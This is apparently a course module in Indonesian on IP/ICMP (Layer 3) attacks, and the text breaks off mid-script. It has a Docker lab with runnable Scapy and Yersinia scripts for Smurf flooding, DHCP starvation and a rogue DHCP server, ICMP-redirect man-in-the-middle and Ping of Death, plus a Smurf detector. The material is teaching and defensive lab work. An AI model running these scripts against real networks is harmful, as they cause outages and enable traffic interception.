





# 🌐 Pertemuan 5: L3 Security - IP/ICMP Attacks

## Daftar Isi
1. [Pengantar Layer 3 Security](#1-pengantar-layer-3-security)
2. [ICMP Protocol & Kerentanannya](#2-icmp-protocol--kerentanannya)
3. [Hands-On: Setup Lab dengan Scapy](#3-hands-on-setup-lab-dengan-scapy)
4. [Hands-On: Analisis Paket dengan Scapy](#4-hands-on-analisis-paket-dengan-scapy)
5. [Hands-On: Smurf Attack](#5-hands-on-smurf-attack)
6. [Hands-On: DHCP Starvation dengan Yersinia](#6-hands-on-dhcp-starvation-dengan-yersinia)
7. [Hands-On: ICMP Redirect Attack](#7-hands-on-icmp-redirect-attack)
8. [Hands-On: Ping of Death](#8-hands-on-ping-of-death)
9. [Deteksi dan Pencegahan](#9-deteksi-dan-pencegahan)
10. [Latihan Mandiri](#10-latihan-mandiri)

---

## 1. Pengantar Layer 3 Security

### Model OSI Layer 3 (Network Layer)



### Fungsi Utama Layer 3

1. **Pengalamatan Logis (IP Addressing)** - Identifikasi host di jaringan
2. **Routing** - Menentukan jalur terbaik ke tujuan
3. **Fragmentation** - Memecah paket besar agar sesuai MTU
4. **Error Handling** - ICMP untuk pelaporan error

### Kerentanan Umum Layer 3

| Jenis Serangan | Target | Dampak |
|----------------|--------|--------|
| **Smurf Attack** | ICMP Amplification | DoS, bandwidth saturation |
| **Ping of Death** | IP Fragmentation | Crash sistem, buffer overflow |
| **ICMP Redirect** | Routing table | Man-in-the-Middle |
| **DHCP Starvation** | DHCP Pool | DoS, rogue DHCP server |
| **IP Spoofing** | IP Address | Bypass authentication |
| **Fragmentation Attack** | IP Fragmentation | IDS evasion, resource exhaustion |

---

## 2. ICMP Protocol & Kerentanannya

### Apa itu ICMP?

**ICMP (Internet Control Message Protocol)** adalah protokol tambahan untuk IP yang digunakan untuk:
- Melaporkan error (destination unreachable, time exceeded)
- Diagnostic (ping, traceroute)
- Control messages (redirect, source quench)

### Tipe ICMP Penting

| Type | Code | Deskripsi | Penggunaan |
|------|------|-----------|------------|
| 0 | 0 | Echo Reply | Ping response |
| 8 | 0 | Echo Request | Ping request |
| 3 | 0-15 | Destination Unreachable | Error routing |
| 5 | 0-3 | Redirect | Ubah routing |
| 11 | 0-1 | Time Exceeded | Traceroute |

### Format Paket ICMP

```bash
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|     Type      |     Code      |          Checksum             |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                              Data                             |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### Kerentanan ICMP

1. **No Authentication** - ICMP mudah dipalsukan
2. **Amplification** - Response bisa lebih besar dari request
3. **Broadcast** - ICMP ke broadcast address berdampak luas
4. **Tunneling** - Data bisa disembunyikan di ICMP payload

---

## 3. Hands-On: Setup Lab dengan Scapy

### 3.1 Topologi Lab

Kita akan menggunakan container yang sudah ada:



### 3.2 Masuk ke Container

```bash
# Dari folder netsec-lab
cd ~/netsec-lab

# Masuk ke container attacker (Kali)
docker-compose exec kali-attacker bash

# Masuk ke container target (di terminal lain)
docker-compose exec ubuntu-target bash
# Di target, install tools
apt update
apt install -y tcpdump net-tools
```

### 3.3 Install Scapy di Attacker

```bash
# Di container Kali attacker
apt update
apt install -y python3-scapy python3-pip tcpdump

# Verifikasi instalasi
python3 -c "from scapy.all import *; print('Scapy terinstall!')"

# Install juga yersinia untuk DHCP starvation
apt install -y yersinia
```

### 3.4 Test Koneksi Normal

```bash
# Di attacker
ping -c 3 192.168.1.10
ping -c 3 192.168.1.1

# Di target
ping -c 3 192.168.1.100
ping -c 3 8.8.8.8
```

### 3.5 Python Environment untuk Scapy

```bash
# Buat folder kerja
mkdir -p /root/l3-attacks
cd /root/l3-attacks

# Buat file Python untuk eksperimen
cat > scapy_basics.py << 'EOF'
#!/usr/bin/env python3
from scapy.all import *

print("=== SCAPY BASICS ===")

# Membuat paket IP
ip = IP(src="192.168.1.100", dst="192.168.1.10")
print(f"IP Packet: {ip.summary()}")

# Membuat paket ICMP
icmp = ICMP(type=8, code=0)  # Echo Request
print(f"ICMP Packet: {icmp.summary()}")

# Gabungkan IP + ICMP
packet = ip/icmp
print(f"Full Packet: {packet.summary()}")
print(f"Packet Bytes: {bytes(packet)[:20]}...")

# Detail paket
packet.show()
EOF

chmod +x scapy_basics.py
python3 scapy_basics.py
```

---

## 4. Hands-On: Analisis Paket dengan Scapy

### 4.1 Sniffing Paket dengan Scapy

```bash
# Buat script sniffer sederhana
cat > simple_sniffer.py << 'EOF'
#!/usr/bin/env python3
from scapy.all import *

def packet_callback(packet):
    if IP in packet:
        src = packet[IP].src
        dst = packet[IP].dst
        proto = packet[IP].proto
        
        if proto == 1 and ICMP in packet:  # ICMP
            print(f"ICMP: {src} -> {dst} Type:{packet[ICMP].type}")
        elif proto == 6 and TCP in packet:  # TCP
            print(f"TCP: {src}:{packet[TCP].sport} -> {dst}:{packet[TCP].dport}")
        elif proto == 17 and UDP in packet:  # UDP
            print(f"UDP: {src}:{packet[UDP].sport} -> {dst}:{packet[UDP].dport}")

print("Memulai sniffing... Tekan Ctrl+C untuk berhenti")
sniff(iface="eth0", prn=packet_callback, filter="ip", count=10)
EOF

python3 simple_sniffer.py
```

### 4.2 Generate Traffic dari Target

Di terminal target (192.168.1.10):
```bash
# Generate ICMP traffic
ping -c 5 192.168.1.1

# Generate TCP traffic
curl http://example.com

# Generate UDP traffic
nc -u 8.8.8.8 53  # DNS query
```

### 4.3 Analisis Paket ICMP Spesifik

```bash
cat > icmp_analyzer.py << 'EOF'
#!/usr/bin/env python3
from scapy.all import *
import time

print("=== ICMP PACKET ANALYZER ===")

# Buat paket ICMP custom
packets = []

# Echo Request (ping normal)
p1 = IP(dst="192.168.1.10")/ICMP(type=8)/b"Data ping biasa"
packets.append(p1)

# Echo Request dengan payload besar
p2 = IP(dst="192.168.1.10")/ICMP(type=8)/b"A"*1000
packets.append(p2)

# Timestamp Request (ICMP Type 13)
p3 = IP(dst="192.168.1.10")/ICMP(type=13)
packets.append(p3)

# Kirim dan analisis response
for i, p in enumerate(packets):
    print(f"\n[{i+1}] Mengirim: {p.summary()}")
    response = sr1(p, timeout=2, verbose=0)
    
    if response:
        print(f"    Response: {response.summary()}")
        print(f"    Round Trip Time: {response.time - p.sent_time:.6f} detik")
        
        if ICMP in response:
            print(f"    ICMP Type: {response[ICMP].type}")
            print(f"    ICMP Code: {response[ICMP].code}")
    else:
        print("    Tidak ada response (timeout)")

time.sleep(1)
EOF

python3 icmp_analyzer.py
```

### 4.4 IP Fragmentation Analysis

```bash
cat > fragmentation_demo.py << 'EOF'
#!/usr/bin/env python3
from scapy.all import *

print("=== IP FRAGMENTATION DEMO ===")

# Buat paket besar (> MTU 1500)
large_data = b"X" * 3000
packet = IP(dst="192.168.1.10")/ICMP()/large_data

print(f"Ukuran paket asli: {len(packet)} bytes")
print(f"Apakah perlu fragmentasi? {'Ya' if len(packet) > 1500 else 'Tidak'}")

# Fragmentasi manual
fragments = fragment(packet, fragsize=1480)
print(f"Jumlah fragment: {len(fragments)}")

for i, frag in enumerate(fragments):
    print(f"\nFragment {i+1}:")
    print(f"  - Size: {len(frag)} bytes")
    print(f"  - More Fragments: {frag[IP].flags == 1}")
    print(f"  - Fragment Offset: {frag[IP].frag * 8} bytes")
    
    # Kirim fragment (hati-hati, bisa menyebabkan crash!)
    # send(frag, verbose=0)
    # time.sleep(0.1)

print("\nCatatan: Mengirim fragment tidak aman! JALANKAN HANYA DI LAB!")
EOF

python3 fragmentation_demo.py
```

---

## 5. Hands-On: Smurf Attack

### 5.1 Apa itu Smurf Attack?

**Smurf Attack** adalah serangan DoS yang memanfaatkan ICMP broadcast amplification.



### 5.2 Cara Kerja Smurf Attack

1. **Attacker** mengirim ICMP Echo Request ke broadcast address dengan **source IP dipalsukan** (IP korban)
2. **Semua host** di jaringan menerima request dan merespon ke korban
3. **Korban** kewalahan oleh banyaknya response (amplification factor = jumlah host)

### 5.3 Simulasi Smurf Attack di Lab

```bash
# BUAT SCRIPT SMURF ATTACK (HANYA UNTUK LAB!)
cat > smurf_simulator.py << 'EOF'
#!/usr/bin/env python3
from scapy.all import *
import time
import sys

print("="*60)
print("SMURF ATTACK SIMULATOR - HANYA UNTUK LAB!")
print("="*60)

# Konfigurasi
target_ip = "192.168.1.10"        # IP korban
broadcast_ip = "192.168.1.255"     # Broadcast address
interface = "eth0"
packet_count = 5                    # Jumlah paket (kecil untuk simulasi)

print(f"Target Korban: {target_ip}")
print(f"Broadcast Address: {broadcast_ip}")
print(f"Jumlah Paket: {packet_count}")
print("-"*60)

# Di lab kecil, amplification factor terbatas
# Kita akan lihat efeknya dengan tcpdump

# Buka terminal lain untuk monitoring:
print("\n[!] Jalankan di terminal target:")
print(f"    tcpdump -i eth0 -n icmp and host {target_ip}")
print("-"*60)

input("Tekan Enter untuk memulai serangan...")

# Kirim paket spoofed ke broadcast
for i in range(packet_count):
    # Buat paket dengan source IP = target (spoofed)
    packet = IP(src=target_ip, dst=broadcast_ip)/ICMP(type=8)/f"Smurf-{i}".encode()
    
    print(f"[{i+1}] Mengirim paket ke {broadcast_ip} dengan source {target_ip}")
    send(packet, iface=interface, verbose=0)
    time.sleep(0.5)  # Delay agar tidak terlalu agresif

print("\nSerangan selesai! Periksa tcpdump di target.")
EOF

chmod +x smurf_simulator.py
```

### 5.4 Monitoring dari Target

Di terminal target (192.168.1.10):
```bash
# Monitor ICMP traffic
tcpdump -i eth0 -n icmp

# Akan terlihat banyak ICMP Echo Reply dari berbagai host
# meskipun target tidak mengirim Echo Request
```

### 5.5 Smurf Attack dengan Amplifikasi

```bash
cat > smurf_amplification.py << 'EOF'
#!/usr/bin/env python3
from scapy.all import *
import threading
import time

class SmurfAmplificationSim:
    def __init__(self, target, broadcast, interface="eth0"):
        self.target = target
        self.broadcast = broadcast
        self.interface = interface
        self.running = False
        self.stats = {"sent": 0, "responses": 0}
    
    def attack_thread(self):
        """Kirim paket spoofed terus menerus"""
        while self.running:
            packet = IP(src=self.target, dst=self.broadcast)/ICMP(type=8)/("X"*100)
            send(packet, iface=self.interface, verbose=0)
            self.stats["sent"] += 1
            time.sleep(0.01)  # 100 packet per detik
    
    def monitor_thread(self):
        """Monitor response yang diterima"""
        def callback(pkt):
            if ICMP in pkt and pkt[ICMP].type == 0:  # Echo Reply
                if pkt[IP].dst == self.target:
                    self.stats["responses"] += 1
                    print(f"\r[!] Paket diterima: {self.stats['responses']}", end="")
        
        sniff(iface=self.interface, filter=f"icmp and dst {self.target}", 
              prn=callback, store=0)
    
    def start(self):
        self.running = True
        print(f"[*] Memulai Smurf Attack Simulation")
        print(f"[*] Target: {self.target}")
        print(f"[*] Broadcast: {self.broadcast}")
        print(f"[*] Tekan Ctrl+C untuk berhenti\n")
        
        # Mulai thread
        attack = threading.Thread(target=self.attack_thread)
        monitor = threading.Thread(target=self.monitor_thread)
        
        attack.daemon = True
        monitor.daemon = True
        
        attack.start()
        monitor.start()
        
        try:
            while True:
                time.sleep(1)
                ratio = self.stats["responses"] / max(self.stats["sent"], 1)
                print(f"\r[*] Sent: {self.stats['sent']}, "
                      f"Responses: {self.stats['responses']}, "
                      f"Ratio: {ratio:.2f}", end="")
        except KeyboardInterrupt:
            print("\n\n[+] Menghentikan simulasi...")
            self.running = False

if __name__ == "__main__":
    # Konfigurasi
    TARGET = "192.168.1.10"
    BROADCAST = "192.168.1.255"
    
    sim = SmurfAmplificationSim(TARGET, BROADCAST)
    sim.start()
EOF

python3 smurf_amplification.py
```

---

## 6. Hands-On: DHCP Starvation dengan Yersinia

### 6.1 Apa itu DHCP Starvation?

**DHCP Starvation** adalah serangan di mana penyerang membanjiri DHCP server dengan request untuk menghabiskan semua IP address yang tersedia.



### 6.2 Mengapa DHCP Starvation Berbahaya?

1. **Denial of Service** - Client legitimate tidak bisa dapat IP
2. **Rogue DHCP Server** - Setelah pool habis, attacker bisa pasang DHCP server palsu
3. **Man-in-the-Middle** - Dengan rogue DHCP, attacker bisa atur gateway dan DNS

### 6.3 Mengenal Yersinia

**Yersinia** adalah framework untuk menguji kerentanan protokol Layer 2 termasuk DHCP, HSRP, STP, CDP, dll.

### 6.4 Install dan Jalankan Yersinia

```bash
# Yersinia sudah terinstall sebelumnya
# Jalankan dengan mode teks
yersinia -I

# Atau dengan GUI (butuh X11)
yersinia -G
```

### 6.5 DHCP Starvation dengan Yersinia (Mode Teks)

```bash
# 1. Jalankan yersinia dalam mode teks
yersinia -I

# 2. Di dalam yersinia, tekan:
#    - 'h' untuk help
#    - 'F2' untuk pilih protokol DHCP
#    - 'x' untuk list attacks
#    - Pilih '1' untuk DHCP starvation
#    - Pilih interface (biasanya eth0)
#    - Set parameters atau gunakan default
#    - 'x' untuk mulai serangan

# 3. Lihat status serangan
#    - Akan terlihat MAC address acak terus meminta IP
```

### 6.6 DHCP Starvation dengan Yersinia (Command Line)

```bash
# DHCP starvation attack dengan 100 request
yersinia dhcp -attack 1 -interface eth0 -number 100

# Attack terus menerus
yersinia dhcp -attack 1 -interface eth0
```

### 6.7 Monitoring dari DHCP Server

Di router (192.168.1.1):
```bash
# Monitor DHCP leases
cat /var/lib/dhcp/dhcpd.leases | grep lease

# Atau install dhcpdump untuk monitoring real-time
apt install -y dhcpdump
dhcpdump -i eth0
```

### 6.8 Simulasi DHCP Starvation dengan Scapy

```bash
cat > dhcp_starvation.py << 'EOF'
#!/usr/bin/env python3
from scapy.all import *
import random
import time

def random_mac():
    """Generate random MAC address"""
    mac = [0x00, 0x16, 0x3e,
           random.randint(0x00, 0x7f),
           random.randint(0x00, 0xff),
           random.randint(0x00, 0xff)]
    return ':'.join(map(lambda x: "%02x" % x, mac))

def dhcp_starvation(interface="eth0", count=50):
    print(f"[*] Memulai DHCP Starvation - {count} request")
    print("[*] Tekan Ctrl+C untuk berhenti\n")
    
    successful = 0
    
    for i in range(count):
        # Generate MAC acak
        client_mac = random_mac()
        
        # DHCP Discover
        dhcp_discover = (
            Ether(src=client_mac, dst="ff:ff:ff:ff:ff:ff") /
            IP(src="0.0.0.0", dst="255.255.255.255") /
            UDP(sport=68, dport=67) /
            BOOTP(chaddr=client_mac, xid=random.randint(1, 1000000)) /
            DHCP(options=[("message-type", "discover"), "end"])
        )
        
        print(f"[{i+1}] Mengirim Discover dengan MAC {client_mac}")
        sendp(dhcp_discover, iface=interface, verbose=0)
        
        # Tunggu response (simulasi)
        time.sleep(0.1)
        
        # Dalam implementasi nyata, kita perlu handle Offer dan kirim Request
        # Tapi untuk demo, kita cukup flood Discover
        
        successful += 1
        print(f"    OK - {successful} request terkirim")
        
        # Delay agar tidak terlalu cepat
        time.sleep(0.05)
    
    print(f"\n[+] Selesai! {successful} DHCP Discover terkirim")

if __name__ == "__main__":
    dhcp_starvation(count=20)  # Kecil untuk demo
EOF

python3 dhcp_starvation.py
```

### 6.9 Rogue DHCP Server dengan Yersinia

Setelah DHCP pool habis, attacker bisa pasang rogue DHCP server:

```bash
# Di yersinia, setelah starvation sukses
# Pilih attack 2 - DHCP Rogue Server

# Atau dengan command line
yersinia dhcp -attack 2 -interface eth0 \
  -network 192.168.1.0/24 \
  -dns 8.8.8.8 \
  -gateway 192.168.1.100  # IP attacker sebagai gateway
```

---

## 7. Hands-On: ICMP Redirect Attack

### 7.1 Apa itu ICMP Redirect?

**ICMP Redirect** digunakan router untuk memberi tahu host bahwa ada route yang lebih baik ke suatu tujuan.



### 7.2 ICMP Redirect untuk MITM

```bash
cat > icmp_redirect_mitm.py << 'EOF'
#!/usr/bin/env python3
from scapy.all import *
import threading
import time

class ICMPRedirectAttack:
    def __init__(self, target, gateway, new_gateway, interface="eth0"):
        self.target = target      # IP korban
        self.gateway = gateway     # Gateway asli
        self.new_gateway = new_gateway  # IP attacker (gateway palsu)
        self.interface = interface
        self.running = False
    
    def send_redirect(self):
        """Kirim ICMP Redirect ke korban"""
        # Buat paket ICMP Redirect
        # Type 5 = Redirect, Code 1 = Redirect for host
        
        # Paket yang menginspirasi redirect (seolah dari gateway asli)
        original_packet = (
            IP(src=self.target, dst="8.8.8.8") /
            ICMP(type=8)  # Echo Request
        )
        
        # Paket redirect
        redirect_packet = (
            IP(src=self.gateway, dst=self.target) /
            ICMP(type=5, code=1, gw=self.new_gateway) /
            original_packet
        )
        
        send(redirect_packet, iface=self.interface, verbose=0)
        print(f"[*] Redirect sent: {self.target} -> {self.new_gateway} for 8.8.8.8")
    
    def start(self):
        self.running = True
        print(f"[*] Memulai ICMP Redirect Attack")
        print(f"[*] Target: {self.target}")
        print(f"[*] Gateway asli: {self.gateway}")
        print(f"[*] Gateway palsu: {self.new_gateway}")
        
        try:
            while self.running:
                self.send_redirect()
                time.sleep(5)  # Kirim setiap 5 detik
        except KeyboardInterrupt:
            print("\n[+] Menghentikan serangan...")
            self.running = False

if __name__ == "__main__":
    attack = ICMPRedirectAttack(
        target="192.168.1.10",
        gateway="192.168.1.1",
        new_gateway="192.168.1.100"  # IP attacker
    )
    attack.start()
EOF

python3 icmp_redirect_mitm.py
```

### 7.3 Monitoring ICMP Redirect di Target

Di target (192.168.1.10):
```bash
# Lihat routing table
route -n
ip route show

# Monitor ICMP redirect
tcpdump -i eth0 -n icmp and icmp[0] == 5

# Setelah redirect, cek routing table lagi
# Mungkin ada route baru ke 8.8.8.8 via attacker
```

---

## 8. Hands-On: Ping of Death

### 8.1 Apa itu Ping of Death?

**Ping of Death** adalah serangan dengan mengirim ICMP packet yang melebihi ukuran maksimum IP (65535 bytes) dengan memanfaatkan fragmentasi.

### 8.2 Cara Kerja Ping of Death

```bash
Paket ICMP normal: 64 bytes
Paket Ping of Death: >65535 bytes setelah reassembly

Caranya:
1. Kirim fragment pertama dengan offset 0, ukuran besar
2. Kirim fragment terakhir dengan offset yang menyebabkan total >65535
3. Target crash saat reassembly karena buffer overflow
```

### 8.3 Simulasi Ping of Death dengan Scapy

```bash
cat > ping_of_death.py << 'EOF'
#!/usr/bin/env python3
from scapy.all import *
import sys

print("="*60)
print("PING OF DEATH SIMULATOR - HANYA UNTUK LAB!")
print("="*60)

target = "192.168.1.10"
print(f"Target: {target}")

# Buat paket yang sangat besar (>65535 setelah fragmentasi)
# Dengan fragmentasi, kita bisa membuat paket reassembly >65535

# Buat payload besar
payload_size = 65536  # Sedikit di atas batas
payload = b"A" * payload_size

# Buat paket IP dengan fragmentasi
packet = IP(dst=target)/ICMP()/payload

print(f"\n[*] Ukuran paket asli: {len(packet)} bytes")
print(f"[*] Batas maksimum IP: 65535 bytes")

if len(packet) > 65535:
    print("[!] Paket ini akan di-fragmentasi")
    
    # Fragmentasi manual
    fragments = fragment(packet, fragsize=1480)
    print(f"[*] Jumlah fragment: {len(fragments)}")
    
    print("\n[*] Mengirim fragment...")
    for i, frag in enumerate(fragments):
        print(f"    Mengirim fragment {i+1} ({len(frag)} bytes)")
        send(frag, verbose=0)
        time.sleep(0.01)
    
    print("\n[+] Semua fragment terkirim!")
    print("[*] Target mungkin crash atau restart jika vulnerable")
else:
    print("[-] Paket tidak cukup besar")
    
print("\nCATATAN: Sistem modern sudah patched terhadap Ping of Death")
EOF

python3 ping_of_death.py
```

### 8.4 Test dengan Sistem Legacy

Jika ada sistem lawas, bisa test dengan:
```bash
# Ping dengan ukuran besar (tapi dibatasi OS)
ping -s 65507 192.168.1.10  # Maksimum di Linux modern
```

---

## 9. Deteksi dan Pencegahan

### 9.1 Deteksi Smurf Attack

```bash
cat > detect_smurf.py << 'EOF'
#!/usr/bin/env python3
from scapy.all import *
import time

class SmurfDetector:
    def __init__(self, interface="eth0"):
        self.interface = interface
        self.icmp_stats = {}
        self.threshold = 100  # ICMP per menit
        
    def detect(self):
        print(f"[*] Memonitor ICMP traffic di {self.interface}")
        print(f"[*] Threshold: {self.threshold} paket/menit")
        
        def packet_handler(pkt):
            if ICMP in pkt and pkt[ICMP].type == 0:  # Echo Reply
                src = pkt[IP].src
                dst = pkt[IP].dst
                
                # Deteksi reply tanpa request
                key = f"{src}->{dst}"
                
                if key not in self.icmp_stats:
                    self.icmp_stats[key] = []
                
                self.icmp_stats[key].append(time.time())
                
                # Hapus data lama (>60 detik)
                current_time = time.time()
                self.icmp_stats[key] = [t for t in self.icmp_stats[key] 
                                       if current_time - t < 60]
                
                # Cek threshold
                if len(self.icmp_stats[key]) > self.threshold:
                    print(f"[ALERT] Kemungkinan Smurf Attack!")
                    print(f"    {src} mengirim banyak reply ke {dst}")
                    print(f"    {len(self.icmp_stats[key])} paket dalam 60 detik")
        
        sniff(iface=self.interface, prn=packet_handler, store=0)

if __name__ == "__main__":
    detector = SmurfDetector()
    detector.detect()
EOF

python3 detect_smurf.py
```

### 9.2 Deteksi DHCP Starvation

```bash
cat > detect_dhcp_starvation.py << 'EOF'
#!/usr/bin/env python3
from scapy.all import *
import time

